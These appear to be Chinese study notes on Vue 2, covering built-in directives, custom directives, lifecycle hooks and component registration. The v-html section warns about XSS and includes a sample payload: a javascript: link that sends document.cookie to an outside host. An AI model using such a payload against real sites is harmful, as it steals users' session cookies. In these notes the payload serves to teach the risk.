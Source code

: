 #### 1.内置指令
    我们学过的指令：
            v-bind	: 单向绑定解析表达式, 可简写为 :xxx
            v-model	: 双向数据绑定
            v-for  	: 遍历数组/对象/字符串
            v-on   	: 绑定事件监听, 可简写为@
            v-if 	 	: 条件渲染（动态控制节点是否存存在）
            v-else 	: 条件渲染（动态控制节点是否存存在）
            v-show 	: 条件渲染 (动态控制节点是否展示)
    v-text指令：
            1.作用：向其所在的节点中渲染文本内容。v-text的值拿来当做被绑定节点的文本，不会解析标签。（常用！）
            2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。
#### 2.v-html指令：
        1.作用：向指定节点中渲染包含html结构的内容。
        2.与插值语法的区别：
                    (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
                    (2).v-html可以识别html结构。
        3.严重注意：v-html有安全性问题！！！！
                    (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
                    (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
        在打印台可以直接打印出部分cookie，网站服务器给我们的cookie中，有的会作限制，仅http请求可获取，这样式的document.cookie不能拿到。
            如果网站没有对敏感信息做出限制，利用v-html在a标签里可以拿到cookie然后跳转到攻击者的服务器，拿到我们的cookie

```html
<div v-html="str2"></div>
```
```js
str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
```

#### 3.v-cloak指令（没有值）：
        1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
        2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。
                为什么网速慢会出现这个问题呢？因为网速慢，Vue.js还没请求过来，Vue还没介入管理模板，{{XXX}}不被解析，页面上会暂时出现{{XXX}}。
            可配合属性选择器display:none，当Vue介入管理时会删掉v-cloak属性，并解析{{}}。
```css
[v-cloak]:{
    display:none;
}
```
##### 使用场景：
    因为网速，页面作展示时要等Vue来解析模板

#### 4.v-once指令：
        1.v-once所在节点在初次动态渲染后，就视为静态内容了。
        2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。
#### 5.v-pre指令：
        1.跳过其所在节点的编译过程。
        2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。  
    如果节点中用不到插值语法及一些指令，就用v-pre，该节点中的内容将不会被解析，加快页面整体编译      
#### 6.自定义属性
需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。
    需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。
    自定义指令总结：
*            一、定义语法：
                        (1).局部指令：
                                    new Vue({
                                        directives:{指令名:配置对象}   或   		directives{指令名:回调函数}
                                    }) 																	
                        (2).全局指令：
                                    Vue.directive(指令名,配置对象) 或   Vue.directive(指令名,回调函数)

*            二、配置对象中常用的3个回调：
                        (1).bind：指令与元素成功绑定时调用。
                        (2).inserted：指令所在元素被插入页面时调用。
                        (3).update：指令所在模板结构被重新解析时调用。

*            三、备注：
                        1.指令定义时不加v-，但使用时要加v-；
                        2.指令名如果是多个单词，要使用kebab-case命名方式，不要用camelCase命名。用''包起来，因为声明函数简写形式不能带-，只能不简写了
    // 完整模式
```js
    big2:{
        // 指令与元素完成绑定的时候，这个时候还没有生成真实DOM
        bind(element,binding){
            element.value = binding.value;
        },
        // 指令所在元素被插入界面时，这个时候才有真正的DOM出现
        inserted(element,binding){
            element.focus()
        },
        // 指令所在的模板被重新渲染的时候
        update(element,binding){
            element.value = binding.value;
        }
    }

    简写模式去掉了inserted，简写函数的内容就是bind和update
```                
#### 7.生命周期函数
生命周期：
1. 又名：生命周期回调函数、生命周期函数、生命周期钩子。
2. 是什么：Vue在关键时刻帮我们调用的一些特殊名称的函数。
3. 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
4. 生命周期函数中的this指向是vm 或 组件实例对象。
* 常用的生命周期钩子：
						1.mounted: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
						2.beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

				关于销毁Vue实例
						1.销毁后借助Vue开发者工具看不到任何信息。
						2.销毁后自定义事件会失效，但原生DOM事件依然有效。
						3.一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。
[生命周期函数](../02_原理图/生命周期.png)

#### 8.非单元文件组件、Vue中使用组件的三大步骤：
        一、定义组件(创建组件)
        二、注册组件
        三、使用组件(写组件标签)

一、如何定义一个组件？
            使用Vue.extend(options)创建，其中options和new Vue(options)时传入的那个options几乎一样，但也有点区别；
            区别如下：
                    1.el不要写，为什么？ ——— 最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器。
                    2.data必须写成函数，为什么？ ———— 避免组件被复用时，数据存在引用关系。
            备注：使用template可以配置组件结构。

二、如何注册组件？
                1.局部注册：靠new Vue的时候传入components选项
                2.全局注册：靠Vue.component('组件名',组件)

三、编写组件标签：
                <school></school>
##### 几个注意点：
1. 关于组件名:
        一个单词组成：
                    第一种写法(首字母小写)：school
                    第二种写法(首字母大写)：School
        多个单词组成：
                    第一种写法(kebab-case命名)：my-school
                    第二种写法(CamelCase命名)：MySchool (需要Vue脚手架支持)
        备注：
                (1).组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行。
                (2).可以使用name配置项指定组件在开发者工具中呈现的名字。

2. 关于组件标签:
        第一种写法：<school></school>
        第二种写法：<school/>在脚手架中可以随便用，但是在原始的HTML中，仅能解析第一个这种单标签组件
        备注：不用使用脚手架时，<school/>会导致后续组件不能渲染。

3. 一个简写方式：
        const school = Vue.extend(options) 可简写为：const school = options
            虽然我们没有明面上的调用Vue.extend。但是在注册路由的时候，会判断传入的内容，如果传入的直接就是一个对象，他会帮我们调用Vue.extend。如果我们已经写好了Vue.extend，那么他拿过来直接就用了